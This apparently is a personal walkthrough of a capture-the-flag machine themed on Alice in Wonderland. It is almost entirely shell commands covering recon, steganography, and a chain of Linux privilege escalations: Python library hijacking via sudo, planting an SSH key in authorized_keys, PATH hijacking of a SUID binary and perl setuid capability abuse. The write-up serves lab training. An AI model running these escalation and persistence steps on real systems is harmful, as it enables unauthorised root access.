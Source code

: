 ### Prepare
```bash
# add taget IP
mcedit /etc/hosts
nano /etc/hosts

mkdir wonderland
mkdir nmap 
mkdir misc 
```

### Recon 

```bash
nmap -sC -sV -oN def_scan.txt target
```

```bash
gobuster dir -u http://target/ -t 50 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
```

```bash
nikto -h "http://target" | tee nikto.log
```

```
wget http://target/img/white_rabbit_1.jpg

steghide info white_rabbit_1.jpg

steghide extract -sf white_rabbit_1.jpg

cat hint.txt
```

---------
### On system 
```bash
# use credentials find before 
ssh alice@target 
```

```zsh 
# explain  id command 
# explain rules of permitions 
# explain suid bits and stuff
id 
whoami
uname -a 

# what is python import and how it works 
cat script.py
python3 walrus_and_the_carpenter.py

# eplain
sudo -l 

# one of the many variations 
echo "import subprocess;subprocess.call('/bin/bash');" > random.py
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

# or 
mcedit random.py
nano random.py

python 
import os 
os.system("/bin/bash -p")

import subprocess
subprocess.call('/bin/sh')


sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
# tadaaam
whoami
```
##### internal recon 

```bash
nc target 24591 > /dev/shm/linpeas.sh
# research wtf is linpeas? 
```


----------
### Escalation


# explain it
``` bash
mkdir .ssh
echo "ssh-rsa <key> kali@kali" > /home/rabbit/.ssh/authorized_keys
chmod 600 /home/rabbit/.ssh/authorized_keys
```

or
```bash
file teaParty
./teaParty
nc -w 0 -lvpn 23232 < teaParty
```

на своей системе 
```bash
string teaParty
man date 
ltrace ./teaParty
```

now we have a plan of attack
```bash
echo $PATH
mcedit date
add /bin/bash -p

chmod +x date 

echo $SHLVL
./date 
echo $SHLVL
```
### Last Step 
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

```zsh 
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
whoami 
```

```bash
getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
whoami
# root !!!!!

cat user.txt
cat root.txt
```
